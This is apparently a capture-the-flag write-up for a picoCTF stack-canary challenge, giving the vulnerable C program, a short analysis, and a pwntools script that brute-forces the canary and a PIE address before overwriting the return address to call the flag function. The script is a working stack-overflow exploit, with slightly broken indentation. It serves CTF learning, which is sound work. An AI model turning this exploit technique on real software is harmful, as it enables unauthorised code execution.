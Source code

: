 [Back](PicoFrontPage.md)

# CanaRy
---

### Tools
* GEF-GDB
* Pwntools - Python3
* Text editor

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUF_SIZE 32
#define FLAG_LEN 64
#define KEY_LEN 4

void display_flag() {
  char buf[FLAG_LEN];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }
  fgets(buf,FLAG_LEN,f);
  puts(buf);
  fflush(stdout);
}

char key[KEY_LEN];
void read_canary() {
  //FILE *f = fopen("/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/canary.txt","r")
  //
  //;
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("[ERROR]: Trying to Read Canary\n");
    exit(0);
  }
  fread(key,sizeof(char),KEY_LEN,f);
  fclose(f);
}

void vuln(){
   char canary[KEY_LEN];
   char buf[BUF_SIZE];
   char user_len[BUF_SIZE];

   int count;
   int x = 0;
   memcpy(canary,key,KEY_LEN);
   printf("Please enter the length of the entry:\n> ");

   while (x<BUF_SIZE) {
      read(0,user_len+x,1);
      if (user_len[x]=='\n') break;
      x++;
   }
   sscanf(user_len,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,key,KEY_LEN)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  read_canary();
  vuln();

  return 0;
}
```

Important points:
* Stack canaries are used to alert when the stack has been altered.
	* A certain location on the stack will be compared with a certain value to check for buffer overflows.
	* Brute-forcing canaries is actually feasible for 32-bit systems

### Analysis

As you can see, the program asks for user input twice, one to store as string size for the next input, and the second is for just input.
For the first bit of input we are able to set a size for count which will define how much text we can feed it the next input.

We can also see that the canary is actually read off a file in the `read_canary()` function.

As mentioned earlier - since this is 32-bit we can actually brute-force it. Just create a function that iterates through all characters while adjusting the size.

The distance to `$eip` can be found through earlier tricks - `cyclic`, using a disassembler, etc. Just make sure you set the size before if you're dynamically analyzing.
Note, the canary in the file doesn't change - once you cleared the brute-forcing and run into an error after, you can just create a script that skips the actual brute-forcing and instead go straight to overriding the `$eip`.

Through `checksec` we can see that PIE has been enabled. This means it won't be as easy to get to the location of the `display_flag()` function. However this can be brute-forced as well. Just run it through with the address `0x7ed` until a hint of pico is found in the return string and you should have it.

```c
from pwn import *

# variables

canary = ''

# variables
buf_canary = 32 # buffer to canary
canary_eip = 16 # canary to eip
#canary_eip = 54 # canary to eip
#display_flag = 0x5655636d # address of display_flag
display_flag = 0x7ed

s = ssh(host='2019shell1.picoctf.com',user='Username',password='Password')

# looping through all possible bytes for the 4 bytes (32-bit) in canary
for i in range(4):
	for j in range(256):
		# set up connection and cd into correct directory
		p = s.process('/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/vuln', cwd='/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe')

		#p.recv()
		#p.sendline(b'1234')

		# set up payload
		payload = 'A'*buf_canary
		payload += canary
		payload += chr(j)

		# respond to initial message
		p.recvuntil(b'Please enter the length of the entry:\n> ')
		p.sendline(str(32+i+1))

		# send payload with canary
		p.recvuntil(b'Input> ')
		p.sendline(payload)
		recvmsg = p.recvall()

		if b'Stack Smashing Detected' not in recvmsg:
			canary += chr(j)
			print("\nCanary Character", i + 1, "=", chr(j), "\n")
			break
    else:
	    print("error")
      exit()

print("Brute forcing canary successful.\nCanary value is:", canary, "\n")

flag = ""

# brute forcing display_flag() address
while "pico" not in flag:
	p = s.process('/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/vuln', cwd='/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe')

	# real payload
	payload = b'A'*buf_canary
	payload += bytes(canary, 'utf-8')
	payload += b'A'*canary_eip
	payload += p32(display_flag)

	# skip through lines
	p.recvuntil(b'Please enter the length of the entry:\n> ')
	p.sendline(b'54')

	p.recvuntil(b'Input> ')
	p.sendline(payload)
	response = p.recvall()
	flag = str(response)
	p.close()

print(flag)

# do this
p.interactive()
```
